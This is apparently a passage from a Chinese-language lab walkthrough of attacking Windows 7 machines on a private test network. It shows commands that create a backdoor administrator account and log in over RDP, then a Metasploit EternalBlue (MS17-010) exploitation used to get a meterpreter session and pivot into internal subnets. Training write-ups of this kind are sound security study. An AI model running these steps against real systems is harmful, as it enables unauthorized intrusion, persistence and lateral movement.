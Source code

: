 创建新用户，并为其添加管理员权限

```
net user hack 123123 /add
net localgroup administrators hack /add
```

![image-20241207190950244](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071909271.png)

然后利用新建的用户远程登陆windows7系统

```
rdesktop 192.168.112.128
```

![image-20241207191046631](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071910725.png)

### 跳板攻击内网服务器

#### 利用win7开启路由

开启MSF

```
msfconsole 
```

![image-20241211000025577](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439367.png)

**攻击win7，并进入meterpreter**

设置启用永恒之蓝攻击模块

```
 use exploit/windows/smb/ms17_010_eternalblue 
```

![image-20241211000128700](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439364.png)

设置攻击ip 192.168.226.129 

```
set rhosts 192.168.226.129 
```

![image-20241211000153542](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439377.png)

用run/exploit 命令开始攻击

```
run
```

![image-20241211000230630](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439379.png)

已经攻击成功

route指令可以看到win7的网段 有192.168.226.0/24 和192.168.247.0/24两个网段。

